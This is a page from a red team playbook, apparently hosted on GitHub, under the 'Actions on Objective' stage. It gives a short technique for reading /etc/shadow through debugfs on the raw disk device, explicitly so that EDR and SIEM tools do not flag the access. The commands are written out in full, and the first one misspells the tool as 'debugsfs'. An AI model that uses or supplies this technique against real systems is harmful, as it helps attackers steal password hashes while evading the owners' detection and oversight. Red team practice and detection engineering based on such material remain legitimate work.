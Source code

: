 # 7 Actions on Objective

## Table of Contents

- [Read sensitive Files](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7-Actions-on-Objective.md#Read-sensitive-Files)

## Read sensitive Files

To avoid that EDR or SIEM flagging Linux commands when reading sensitive files like /etc/shadow, the files should be read from raw disk.

```c
$ df /
$ debugsfs
debugfs: open /dev/sda2
debugfs: cd /etc
debugfs: cat shadow
```

### Previous

- [6 Command-and-Control](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/6-Command-and-Control/6-Command-and-Control.md)

### Next

- [7.1 Post Exploitation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.1-Post-Exploitation.md)
- [7.2 Exfiltration](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md)
